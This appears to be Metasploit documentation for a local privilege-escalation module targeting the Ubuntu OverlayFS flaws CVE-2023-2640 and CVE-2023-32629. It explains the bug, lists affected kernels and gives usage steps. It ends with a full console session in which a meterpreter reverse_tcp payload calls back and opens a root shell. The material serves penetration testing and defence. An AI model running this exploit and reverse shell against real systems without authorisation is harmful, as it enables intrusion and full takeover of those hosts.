 ## Description

CVE-2023-2640 and CVE-2023-32629 are vulnerabilities that allow for the arbitrary setting of 
capabilities while overlaying filesystems. On most Linux Kernels during the execution of
 `ovl_do_setxattr` an intermediate function `vfs_setxatrr` converts file capabilities in a
way that limits them to the current namespace. However, on some versions of the Ubuntu kernel
 `_vfs_setxattr_noperm` is called directly without calling `vfs_setxattr`. 

When a new namespace is created the user will technically be "root" within that given 
namespace. This module will take advantage of this by setting the `CAP_SETUID` capability 
on a system binary. It will then perform filesystem overlay, copying the binary into the lower
directory. Because of the flaws described above when the binary is transferred into the upper
directory its capabilities will not be sanitized and persist in the "normal" namespace. 

## Vunerable Application

These vulnerabilities are somewhat unique in that they effect a wide variety of Ubuntu releases
and kernel versions, as described in the list below. 

Ubuntu 23.04 (Lunar Lobster)m kernel 6.2.0, (CVE-2023-2640 & CVE-2023-32629)

Ubuntu 22.10 (Kinetic Kudu), kernel -> 5.19.0, (CVE-2023-2640 & CVE-2023-32629)

Ubuntu 22.04 LTS (Jammy Jellyfish), kernel -> 5.19.0, (CVE-2023-2640 & CVE-2023-32629)

Ubuntu 22.04 LTS (Jammy Jellyfish), kernel -> 6.2.0, (CVE-2023-2640 & CVE-2023-32629)

Ubuntu 20.04 LTS (Focal Fossa), kernel -> 5.4.0, (CVE-2023-32629)

Ubuntu 18.04 LTS (Bionic Beaver), kernel -> 5.4.0, (CVE-2023-32629)

The user can download a vulnerable version, for example:

```
sudo apt update
sudo apt install -y linux-image-5.19.0-41-generic linux-headers-5.19.0-41-generic
reboot
```
While testing, @bwatters7 mentioned taking the system offline as this appears to be patched automatically.
Be sure to take the system offline to prevent the vulnerabilities from silently being patched. 

This module has successfully been tested on the following:

Ubuntu 22.04 LTS (Jammy Jellyfish) 5.19.0-41-generic

Ubuntu 20.04 LTS (Focal Fossa) 5.4.0-1018-aws

## Verification Steps

1). Start `msfconsole`

2). Get a session on a vulnerable system

3). Use `exploit/linux/local/gameoverlay_privesc`

4). Optional: choose target for payload, either linux binary (0) or [li|u]nix command (1) 
`set target 1`

5). Set session `set session [SESSION]`

5). Do. `run`

6). You should get a new session running as root. 

## Options

### Payload File Name
Name of the file storing the payload, default is random.

### Writable Dir
The name of a directory with write permissions, default is `/tmp`. This will be where the 
payload file will be created if necessary. Additionally during the exploit a series of directories will be
created here to perform the filesystem overlaying. 

## Scenarios

You have a non-root session on one of the systems described above. Please note that this 
module will automatically run checks to determine if the system is vulnerable, you can disable 
this with `set AutoCheck False`. 

```
msf exploit(linux/local/gameoverlay_privesc) >
[*] Sending stage (3045380 bytes) to 10.5.132.129
[*] Meterpreter session 3 opened (10.5.135.201:4585 -> 10.5.132.129:33504) at 2024-12-18 14:02:15 -0600

msf exploit(linux/local/gameoverlay_privesc) > set session 3
session => 3
msf exploit(linux/local/gameoverlay_privesc) > show options

Module options (exploit/linux/local/gameoverlay_privesc):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   PayloadFileName  pSueaCXrnzH      yes       Name of payload
   SESSION          3                yes       The session to run this module on
   WritableDir      /tmp             yes       A directory where we can write files


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.5.135.201     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux_Binary



View the full module info with the info, or info -d command.

msf exploit(linux/local/gameoverlay_privesc) > run

[*] Started reverse TCP handler on 10.5.135.201:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected Ubuntu version: Jammy Jellyfish
[*] Detected kernel version: 5.19.0-41-generic
[+] The target is vulnerable. Jammy Jellyfish with 5.19.0-41-generic kernel is vunerable
[*] Creating directory to store payload: /tmp/ODBpneOXk/
[*] Creating directory /tmp/ODBpneOXk/
[*] /tmp/ODBpneOXk/ created
[*] Creating directory /tmp/ODBpneOXk/
[*] Creating directory /tmp/ODBpneOXk/
[*] /tmp/ODBpneOXk/ created
[*] Creating directory /tmp/ODBpneOXk/bmbtPAX/
[*] Creating directory /tmp/ODBpneOXk/bmbtPAX/
[*] /tmp/ODBpneOXk/bmbtPAX/ created
[*] Creating directory /tmp/ODBpneOXk/JtNbwLXJKw/
[*] Creating directory /tmp/ODBpneOXk/JtNbwLXJKw/
[*] /tmp/ODBpneOXk/JtNbwLXJKw/ created
[*] Creating directory /tmp/ODBpneOXk/hEhbByWL/
[*] Creating directory /tmp/ODBpneOXk/hEhbByWL/
[*] /tmp/ODBpneOXk/hEhbByWL/ created
[*] Creating directory /tmp/ODBpneOXk/yvvSFre/
[*] Creating directory /tmp/ODBpneOXk/yvvSFre/
[*] /tmp/ODBpneOXk/yvvSFre/ created
[*] Writing payload: /tmp/ODBpneOXk/pSueaCXrnzH
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 10.5.132.129
[*] rm: cannot remove '/tmp/ODBpneOXk/yvvSFre/': Device or resource busy
[*] Meterpreter session 4 opened (10.5.135.201:4444 -> 10.5.132.129:44400) at 2024-12-18 14:02:42 -0600

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 10.5.132.129
OS           : Ubuntu 22.04 (Linux 5.19.0-41-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux

```
